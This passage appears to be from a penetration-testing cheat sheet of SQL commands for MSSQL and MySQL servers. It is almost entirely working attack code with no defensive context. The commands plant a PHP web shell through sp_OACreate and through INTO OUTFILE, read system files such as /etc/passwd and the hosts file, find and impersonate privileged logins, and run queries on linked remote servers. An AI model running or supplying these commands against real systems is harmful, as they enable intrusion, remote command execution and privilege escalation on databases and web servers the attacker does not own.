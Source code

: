 Create File

```sql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["cmd"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
```

#### **Read Local Files**

```sql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

**Check For Users We Can Impersonate**

```sql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
```

**Impersonate User**

```sql
1> EXECUTE AS LOGIN = '<user>'
```

**Communicate w/ Other Remote DB's**

```sql
SELECT srvname, isremote FROM sysservers
```

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<remote_server>]
```

## MySQL

**Create File**

```sql
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '<filepath>'
```
**Check Secure File Privs**

```sql
show variables like "secure_file_priv";
```
**Read Local File**

```sql
select LOAD_FILE("/etc/passwd");
```
